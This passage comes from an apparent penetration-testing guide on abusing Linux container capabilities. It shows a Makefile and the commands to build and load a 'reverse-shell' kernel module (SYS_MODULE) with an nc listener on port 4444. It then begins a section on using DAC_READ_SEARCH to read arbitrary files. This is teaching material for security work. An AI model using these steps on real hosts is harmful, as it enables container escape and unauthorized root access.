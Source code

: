 {% endcode %}

{% code title="Makefile" %}
```bash
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
{% endcode %}

{% hint style="warning" %}
The blank char before each make word in the Makefile **must be a tab, not spaces**!
{% endhint %}

Execute `make` to compile it.

Finally, start `nc` inside a shell and **load the module** from another one and you will capture the shell in the nc process:

```bash
#Shell 1
nc -lvnp 4444

#Shell 2
insmod reverse-shell.ko #Launch the reverse shell
```

**The code of this technique was copied from the laboratory of "Abusing SYS\_MODULE Capability" from** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com/)\*\*\*\*

## DAC\_READ\_SEARCH Capability

You can check the enabled capabilities inside the docker container using:

```text
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Inside the previous output you can see that the **DAC\_READ\_SEARCH** capability is enabled. As a result, the container can **debug processes**. **This mean that you can** **bypass file read and directory permission checks to read arbitrary files.**

